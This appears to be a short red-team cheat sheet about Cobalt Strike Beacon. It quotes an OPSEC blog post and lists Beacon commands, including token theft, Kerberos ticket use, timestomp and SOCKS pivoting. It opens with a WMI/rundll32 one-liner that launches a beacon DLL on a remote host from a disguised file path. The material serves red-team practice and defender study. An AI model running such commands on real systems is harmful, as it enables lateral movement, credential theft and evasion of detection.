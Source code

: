 *Start Remote Beacon DLL via iwmi*
```
	powerpick iwmi -class Win32_Process -name create -ArgumentList "rundll32.exe c:\users\public\libraries\smb_beacon.dll.log0,StartW"
```

### OPSEC Considerations for Beacon Commands
[Blog.Cobaltstrike.com - OPSEC Considerations For Beacon Commands](https://blog.cobaltstrike.com/2017/06/23/opsec-considerations-for-beacon-commands/#respond)

A good operator knows their tools and has an idea of how the tool is accomplishing its objectives on their behalf. This blog post surveys Beacons commands and provides background on which commands inject into remote processes, which commands spawn jobs, and which commands rely on cmd.exe or powershell.exe.

*API-only*
These commands are built-into Beacon and rely on Win32 APIs to meet their objectives.
```
	cd
	cp
	download
	drives
	exit
	getuid
	kerberos_ccache_use
	kerberos_ticket_purge
	kerberos_ticket_use
	jobkill
	kill
	link
	ls
	make_token
	mkdir
	mv
	ppid
	ps
	pwd
	rev2self
	rm
	rportfwd
	socks
	steal_token
	timestomp
	unlink
	upload
```

*House-keeping Commands*
The following commands are built into Beacon and exist to configure Beacon or perform house-keeping actions. Some of these commands (e.g., clear, downloads, help, mode, note) do not generate a task for Beacon to execute.
```
	cancel
	checkin
	clear
	downloads
	help
	jobs
	mode dns
	mode dns-txt
	mode dns6
	mode http
	note
	powershell-import
	sleep
	socks stop
```